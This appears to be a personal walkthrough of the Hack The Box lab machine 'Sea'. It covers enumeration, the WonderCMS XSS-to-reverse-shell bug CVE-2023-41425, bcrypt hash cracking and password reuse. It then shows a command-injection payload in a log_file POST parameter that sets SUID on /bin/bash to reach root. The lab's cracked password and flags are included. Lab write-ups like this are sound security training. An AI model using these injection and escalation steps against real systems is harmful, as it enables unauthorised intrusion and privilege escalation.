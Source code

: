 # Given

ip/scope: 10.10.11.28

# Steps

## Initial Enum

- nmap scan: `nmap -sCV -p- 10.10.11.28 -oN nmap.out`
- manual enumeration of the website to see if there are any exploitable areas like forms, links, etc. Got domain name, and the fact that contact works through php.
- add domain to `/etc/hosts`
- follow contact link to online contact form page.
	- contact form doesn't work, fails to send out anything.
- used feroxbuster to try and check for links/directories that aren't immediately apparent.
- Googled `turboblack 3.2.0 exploit`, and found a known vulnerability (CVE-2023-41425) which seems to reference an XSS vulnerability.
- Googled a bit for the default login for wondercms, and got:
	- `http://sea.htb/loginURL/index.php?page=loginURL`

## Vulnerability Found

- Used exploit found here: `https://github.com/thefizzyfish/CVE-2023-41425-wonderCMS_RCE`
- XSS can be used to have the victim download a file from you, and through that establish a reverse shell.

## Initial Foothold

- exploit works by creating a python server on the attacking machine, and having the victim download a js file called `xss.js`.
- Attacker run a `netcat listener`, which will be pinged when the victim's machine downloads the `xss.js` file.

### Upgrading the Shell

```bash
# In reverse shell
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z

# In Kali
$ stty raw -echo
$ fg

# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>
```

## Privilege Escalation Part 1

- Looking around the files in the web server, there will be a file called `database.js` which contains a password hash for the CMS.
	- The password hash encrypted with the BCRYPT algorithm
	- There are escape characters in the hash which have to be taken out before decrypting it.
- Use Hashcat to crack the hash
	- `hashcat -m 3200 ./findings/hash.txt /usr/share/wordlists/rockyou.txt`
	- password is `mychemicalromance`
- Checked for repeated password use by trying to SSH into each user's account. 
	- amay's account can be accessed with the same password
	- User flag is found in Amay's home directory.

## Privilege Escalation part 2

### Enumerating the Server

- Tried using the following on the system, and there weren't much avenues to priv esc"
	- `sudo -l`
	- `find / -type f -perm -4000 -o -perm -6000 2>/dev/null`
- Checked for any port activity on the machine, and found 2 possible ports running on the loopback interface of the machine
	- `netstat -tulpen`
- One of them gives an unauthorized error when you curl to it:
	- `curl 127.0.0.1:39665`
- The other port (8080) doesn't give any error.
- We can't seem to enumerate what's on 8080 easily, so we use port forwarding
	- `ssh amay@10.10.14.28 -L 8080:127.0.0.1:8080`
- Checking this port out on a browser gives us a monitoring website that's running on the same port in the pivot machine. 
- The monitoring site allows users to analyze log files by selecting them from a dropdown and pressing the Analyze button.
- Analyze the POST request made to the server using `burpsuite` and notice that it is trying to call a log file, where the path is given as part of the request's parameters.
	- We can potentially change this to view whatever file we want to.

### Root Shell

- We can also try to inject a command into the `log_file` property in order to perhaps elevate ourself (amay) to root.
	- `chmod u+s /bin/bash`
- We can url encode the spaces, and add this to the parameter:
	- `log_file=;chmod+u%2Bs+/bin/bash&analyze_log=`
- This should work when the POST request is sent. 
- We can then ssh in as amay, and look at the permissions of the `/bin/bash` binary, and it should have the SUID enabled.
- Launch the bash terminal with the `-p` flag to enable privileged mode and NOT inherit shell functions from the environment
	- `/bin/bash -p`
-

# Findings

- nmap scan: 
	- open ports: ssh(22), http(80)
	- OS: Linux
- website contact form works on a php file.
- website contact link also has domain name of box, which is `sea.htb`
- most files were off limits, except for:

```bash
200      GET        1l        1w        6c http://sea.htb/themes/bike/version
200      GET       21l      168w     1067c http://sea.htb/themes/bike/LICENSE
200      GET        1l        9w       66c http://sea.htb/themes/bike/summary
```

- Going into LICENSE, and Summary gives you a theme name and version `turboblack 3.2.0`
- Found exploit that uses xss to create a reverse shell on the site
- Found hashed CMS login password
- Found 2 users:
	- amay
	- geo
- Found open port in web server on tcp 8080.
- LFI on monitoringsite that's open on port 8080. Allows you to access binaries, and escalate privileges

# Creds

Creds for privesc/lateral movement

- cms login hash: `$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q`
	- Note the escape characters in the hash above
- `$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q:mychemicalromance`

# Flags

- User: 5ef514189276ffb34d7c702441e763f8
- Root: 2b877443cea9411a76939528ee117502